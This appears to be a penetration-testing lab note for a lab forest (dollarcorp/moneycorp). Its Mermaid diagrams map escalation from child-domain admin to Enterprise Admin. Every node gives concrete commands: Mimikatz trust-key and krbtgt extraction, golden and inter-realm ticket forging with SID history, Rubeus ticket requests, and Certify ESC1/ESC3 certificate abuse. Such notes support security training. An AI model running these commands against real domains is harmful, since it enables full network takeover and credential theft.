


# mcorp-dc — Root Domain Escalation: Trust Keys, SID History & AD CS

## Attack Path

```mermaid
flowchart TD
    START(["🔑 dcorp DA\n(dollarcorp.moneycorp.local)"])

    subgraph trust_enum["Phase 1: Enumerate Trust"]
        T1["Enumerate domain trusts\nGet-DomainTrust\nGet-ADTrust -Filter *\nGet-ForestDomain -Verbose"]
        T2["dollarcorp ↔ moneycorp\nBidirectional parent-child trust\nSID filtering NOT enforced (same forest)"]
        T3["SID History attack possible\nChild → Parent domain escalation"]
    end

    subgraph trust_key["Path A: Trust Key + SID History"]
        TK1["Extract inter-domain trust key\nInvoke-Mimikatz\nlsadump::trust /patch\nOR lsadump::dcsync /user:mcorp$ (trust account)"]
        TK2["Get Enterprise Admin SID\nGet-DomainGroup -Identity 'Enterprise Admins'\n-Domain moneycorp.local | select SID"]
        TK3["Forge inter-realm TGT\nkerberos::golden\n/user:Administrator\n/domain:dollarcorp.moneycorp.local\n/sid:DOLLARCORP_DOMAIN_SID\n/sids:MONEYCORP_EA_SID\n/rc4:TRUST_KEY_HASH\n/service:krbtgt\n/target:moneycorp.local\n/ticket:trust_ticket.kirbi"]
        TK4["Get TGS for mcorp-dc service\nRubeus.exe asktgs\n/ticket:trust_ticket.kirbi\n/service:CIFS/mcorp-dc.moneycorp.local /ptt\nOR Rubeus.exe renew + asktgs"]
        TK5["✅ Enterprise Admin access\nto moneycorp.local (root domain)"]
    end

    subgraph golden_ea["Path B: krbtgt Golden Ticket + Extra SIDs"]
        GE1["Extract dcorp krbtgt hash\nlsadump::dcsync /user:dcorp\\krbtgt"]
        GE2["Forge Golden Ticket with\nEnterprise Admin SID in ExtraSIDs\nkerberos::golden\n/user:Administrator\n/domain:dollarcorp.moneycorp.local\n/sid:DCORP_SID\n/krbtgt:DCORP_KRBTGT_HASH\n/sids:MCORP_EA_SID\n/ptt"]
        GE3["Access mcorp resources directly\ndir \\\\mcorp-dc.moneycorp.local\\c$"]
        GE4["✅ EA access via Golden + ExtraSIDs"]
    end

    subgraph adcs["Path C: AD CS Abuse (ESC1 & ESC3)"]
        CS1["Enumerate Certificate Templates\nInvoke-Certify find /vulnerable\nOR Certify.exe find /vulnerable"]
        CS2A["ESC1: HTTPSCertificates template\nEnrollee Supplies Subject = True\nClient Authentication EKU"]
        CS2B["ESC3: SmartCardEnrollment-Agent\n+ SmartCardEnrollment-Users\nCertificate Request Agent EKU"]
        CS3A["ESC1 Attack:\nRequest cert for DA/EA\nCertify.exe request /ca:mcorp-dc\\moneycorp-MCORP-DC-CA\n/template:HTTPSCertificates\n/altname:Administrator"]
        CS3B["ESC3 Attack:\nRequest enrollment agent cert\nThen request cert on behalf of EA\nCertify.exe request /ca:...\n/template:SmartCardEnrollment-Agent\nThen: /template:SmartCardEnrollment-Users\n/onbehalfof:Administrator\n/enrollcert:agent.pfx"]
        CS4["Convert PFX to usable ticket\nRubeus.exe asktgt /user:Administrator\n/certificate:cert.pfx /password:password /ptt"]
        CS5["✅ TGT as Enterprise Admin\nNo password needed"]
    end

    START --> T1 --> T2 --> T3
    T3 --> TK1 --> TK2 --> TK3 --> TK4 --> TK5
    T3 --> GE1 --> GE2 --> GE3 --> GE4
    START --> CS1 --> CS2A & CS2B
    CS2A --> CS3A --> CS4
    CS2B --> CS3B --> CS4
    CS4 --> CS5

    style START fill:#4CAF50,color:#fff
    style TK5 fill:#f44336,color:#fff
    style GE4 fill:#f44336,color:#fff
    style CS5 fill:#9C27B0,color:#fff
```

## Mindmap

```mermaid
mindmap
  root((mcorp-dc))
    Trust Escalation
      Trust Type
        Parent-child trust
        Bidirectional
        No SID filtering (same forest)
      Path A: Trust Key
        lsadump::trust /patch
        Extract inter-realm key
        Forge inter-realm TGT
        Add EA SID in /sids
        Exchange for TGS
      Path B: Golden + ExtraSIDs
        dcorp krbtgt hash
        kerberos::golden
        /sids: EA SID appended
        Direct EA access
    AD CS Abuse
      ESC1
        HTTPSCertificates template
        Enrollee Supplies Subject
        Request as DA or EA
        Certify.exe /altname:Administrator
      ESC3
        SmartCardEnrollment-Agent
          Request enrollment agent cert
        SmartCardEnrollment-Users
          Request on behalf of EA
          /enrollcert agent.pfx
      Convert to TGT
        Rubeus asktgt /certificate
        No password needed
        Full EA TGT
    Enterprise Admin
      Access mcorp-dc
        dir \\mcorp-dc\c$
        DCSync moneycorp.local
      Further escalation
        External trust to eurocorp
```
